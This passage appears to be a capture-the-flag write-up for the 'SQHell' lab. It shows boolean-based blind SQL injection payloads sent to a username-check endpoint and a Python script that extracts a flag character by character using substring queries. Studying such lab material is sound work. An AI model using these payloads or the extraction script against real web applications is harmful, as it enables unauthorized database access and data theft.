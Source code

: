 However the payload: ```admin' and 1=1;-- -``` which is true returns available = false

![true](/assets/images/sqhell/true.png)

Using substring again allows for each character to be checked. If the character is a match, an available equals false will be returned. To confirm I used the payload: ```http://sqhell.thm/register/user-check?username=admin' and (substr((SELECT flag FROM flag LIMIT 0,1),1,1)) = 'T';-- -```

This worked and returned a false statement. I created a script to automate the process.

```highlight
import requests
import string

characterlist = string.ascii_uppercase + string.digits + '{' + '}' + ':'

ip = "" #change to machine IP

flag = ""

counter = 1

while True:
    for i in characterlist: # loop through each character in the character list
        r = requests.get("http://" +  ip + f"/register/user-check?username=admin' and (substr((SELECT flag FROM flag LIMIT 0,1),{counter},1)) = '{i}';-- -") #create request
        if 'false' in r.text: # check if return 'false' statement which indicates a match
            flag += i # add the character to the flag string
            counter += 1 # increment the counter by one to then check the next letter
            print(flag) 
            break
```

Running the script provided the flag.

![flag3](/assets/images/sqhell/flag3.png)
